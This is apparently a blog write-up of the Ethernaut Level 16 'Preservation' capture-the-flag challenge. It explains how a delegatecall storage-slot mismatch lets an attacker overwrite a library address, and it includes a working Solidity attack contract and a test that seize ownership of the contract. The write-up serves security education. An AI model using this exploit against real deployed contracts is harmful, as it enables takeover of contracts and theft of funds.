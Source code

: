 # Ethernaut Level 16 - Preservation

You can also read this [on my blog](https://wizzardhat.com/ethernaut-level-16-preservation/) 😎

## Objectives

- Become the owner of the `Preservation` contract.

## Contract Overview

The `Preservation` contract has two functions to set the time in the time zone libraries. It uses `delegatecall` to do so.

## Finding the weak spots

The `delegatecall` is state-preserving. It means that when delegating a call from contract A to contract B, the logic from contract B will be executed on the state of contract A. Because of that, you must ensure that the state variables are the same and declared in the same order in both contracts.

This is not the case in the `Preservation` contract. It has 5 state variables, and the `LibraryContract` has only 1. They are also in a different order.

```solidity
contract Preservation {
 address public timeZone1Library; // slot 0
    address public timeZone2Library; // slot 1
    address public owner; // slot 2
    uint256 storedTime; // slot 3
}

contract LibraryContract {
 uint256 storedTime; // slot 0
}
```

By making a `delegatecall` from the `Preservation` contract to the `LibraryContract` you are expecting it to modify the `storedTime` state variable. This won't happen. The variable at slot `0` in the `Preservation` contract will be modified with the content of `storedTime` from the library contract.

It means that the `timeZone1Library` address variable at slot `0` will be modified. We can possibly use it to change this address to point to a malicious library that will set the `owner` to our address.

## Potential attack scenario - hypothesis

*Eve is our attacker*

Eve can create a malicious `LibraryAttack` contract which will call the `setFirstTime` function on the `Preservation` contract. She will pass the address of her `LibraryAttack` contract as a parameter to the `delegatecall`. This way she will modify the slot `0` variable `address timeZone1LibraryAddress` to be equal to her attack contract. The second call that Eve will make will execute the `delegatecall` on her malicious `LibraryAttack`. This way she can modify the state of the `Preservation` contract to become the `owner` of this contract.

## Plan of the attack

1. Eve deploys the `LibraryAttack` contract.
2. She calls the `attack` function on the `LibraryAttack` contract.
1. This function makes two calls to the `Preservation` contract.
2. The first call executes a function `setFirstTime` with an address of `LibraryAttack` casted to `uint256`.
3. Because the first call modified the address of `timeZone1LibraryAddress`, the second call will execute a malicious `setFirstTime` function on the `LibraryAttack` contract.
3. The malicious `setFirstTime` contract changes the state variable `owner` to be the address of Eve.

Note that because the `setTimeSignature` is hardcoded in the `Preservation` contract for the `delegatecall` to use, it is necessary that the `LibraryAttack` contract has a function with the same signature.

## Proof of Concept - hypothesis test ✅

This is the attack contract.

```solidity
contract LibraryAttack {
    // public library contracts
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;

    // the state variables: owner and signature are not important
    // we only care about the first 3

    Preservation preservation;
    address eve;

    constructor(address _preservation) {
        preservation = Preservation(_preservation);
        eve = msg.sender;
    }

    function attack() public {
        preservation.setFirstTime(uint256(uint160(address(this))));
        preservation.setFirstTime(uint256(uint160(address(eve))));
    }

    // a malicious setTime function
    function setTime(uint256 _owner) public {
        owner = address(uint160(uint256(_owner)));
    }
}
```

The first call to the `setFirstTime` function modifies the library address to the attack contract address.
The second call is executed on the `setTime` function in the `LibraryAttack` contract and set's the owner to Eve's address.

The unit test showcasing the exploit is as simple as this:

```solidity
LibraryAttack attackContract = new LibraryAttack(levelAddress);
attackContract.attack();
```

The hypothesis has been proven to be true.

## References

You can also read this [on my blog](https://wizzardhat.com/ethernaut-level-16-preservation/) 😎
